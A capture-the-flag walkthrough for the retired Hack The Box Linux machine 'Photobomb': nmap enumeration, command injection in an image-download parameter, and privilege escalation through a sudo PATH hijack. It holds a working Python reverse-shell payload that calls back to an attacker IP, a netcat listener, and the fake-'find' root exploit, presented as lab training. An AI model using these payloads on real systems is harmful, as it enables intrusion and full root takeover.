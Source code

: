 Machine Name: Photobomb
-----------------------

*   **Status:** Retired
*   **OS:** Linux
*   **Difficulty:** Easy
*   **Date Owned:** 11/23/2022 
*   **IP Assigned:** 10.10.11.182

<br>

Enumeration:
------------

First I'll fire off an NMAP scan to look for any open ports on the target using the following switches:

*   \-sS: syn scan, this is quick and stealthy as it does not complete the TCP connection. It can also differentiation between open, closed, and filtered states of a port. I will need to be run with sudo privileges as it requires raw packet manipulation.
*   \-A: enables aggressive scanning and will enable OS detection (-O), version scanning (-sV), script scanning (-sC), and traceroute (-traceroute).
*   \-p-: will scan all ports on the host.
*   \-T4: timing template 4 is a predefined packet limit per millisecond. Template 4 is considered aggressive.
*   \-oN: output the results to a file.

```text-plain
sudo nmap -sS -A -p- -T4 -oN nmap.txt 10.10.11.182
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-21 22:54 EST
Nmap scan report for 10.10.11.182
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http   nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/21%OT=22%CT=1%CU=34522%PV=Y%DS=2%DC=T%G=Y%TM=637C48
OS:08%P=x86_64-pc-linux-gnu)SEQ(SP=F8%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   22.25 ms 10.10.14.1
2   22.30 ms 10.10.11.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.16 seconds
```

After a few minutes the scan has completed. Ports 22 (SSH) and 80 (HTTP) appear to be open.

Web Enumeration:
----------------

We'll start by adding the domain to our hosts file then browse to the webpage.

```text-plain
echo ‘10.10.11.182 photobomb.htb’ | sudo tee -a /etc/hosts
```

The webpage does not seem to offer much but it seems a note has been left by an administrator in a javascript file which can be viewed in the debugger tab.

![image](https://user-images.githubusercontent.com/110564012/236699046-a9ed3d7f-b42d-4e04-90a6-509787216f79.png)

if we navigate to the page in the note we find some functionality that allows a user to download a photo from the web server. Lets fire up Burp Suite and intercept this traffic.

Burp Suite Command Injection
----------------------------

Click on the Proxy tab in Burp Suite and click Open Browser. Paste in the URL we found in the dev comment above. Now select the ‘Intercept is off’ button which will flip it to on. With intercept on click on the download button at the bottom of the webpage to capture the request which will look like the image below.

![image](https://user-images.githubusercontent.com/110564012/236699081-401557e9-a82b-47ae-9f1d-93127f212f9b.png)

Lets try to inject some code into one of these parameters and try to execute a reverse shell. I will use the python payload below. You will need to replace the ‘x’ characters with your IP, and specify a port you will be listening on.

```text-plain
;export+RHOST="xx.xx.xx.xx";export+RPORT=4444;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)];pty.spawn("sh")'
```

With the payload ready start a netcat listener on the port specified.

```text-plain
nc -nlvp 4444
listening on [any] 4444 ...
```

Now that the payload is prepared and we are listening for a connection on the appropriate port go back to Burp Suite, right click anywhere in the request we intercepted earlier and select ‘Send to Repeater’. Then go to the Repeater tab which should be highlighted and paste the URL encoded payload into the filetype parameter. The response should hang which is always a promising sign, then we see a new connection appear on our listener which means we got a shell!

![image](https://user-images.githubusercontent.com/110564012/236699107-41c34ea0-9a2b-41ee-87f8-267244380c0f.png)

Reverse Shell Access
--------------------

Now we have access to the machine under the account or service that executed our code. Lets do a bit of enumeration to find out who we are and find the flag. The flag is located at /home/wizard/user.txt

```text-plain
nc -nlvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.182.
Ncat: Connection from 10.10.11.182:41316.
$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
$ cat /home/wizard/user.txt
cat /home/wizard/user.txt
HTB{********************************}
 
```

Privilege Escalation
--------------------

Next we will need to find a path to privilege escalation. One of the first things to check is the owned account's permissions for anything unusual. We'll start with the sudo -l command.

```text-plain
$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
   env_reset, mail_badpass,
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User wizard may run the following commands on photobomb:
   (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

It seems that we can ser environmental variables (SETENV) and also run this bash script called cleanup.sh as root. Lets take a look at the code in cleanup.sh and see if we can leverage it to execute a payload as root.

```text-plain
$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb
# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
 /bin/cat log/photobomb.log > log/photobomb.log.old
 /usr/bin/truncate -s0 log/photobomb.log
fi
# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Notice that ‘find’ is being called without specifying its absolute path. Knowing that we can set environmental variables might mean that we can create a malicious version of find and force cleanup.sh to execute our find function instead by modifying the PATH variable.

In order to do this we will need to navigate back to our home directory where we have write permissions and create a new find file that contains bash. Then we will need to add execute permission, and finally add this directory to the beginning of the PATH variable for cleanup.sh.

```text-plain
$ cd /home/wizard
cd /home/wizard
$ ls
ls
photobomb  user.txt
$ echo bash > find
echo bash > find
$ chmod +x find
chmod +x find
$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

Root Shell Access
-----------------

Once the path is added and the script is executed we now have a root shell. The root flag can be found at /root/root.txt

```text-plain
root@photobomb:/home/wizard/photobomb# id    
id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
cat /root/root.txt
HTB{********************************}
```

Congratulations on completing this machine! Happy hunting.
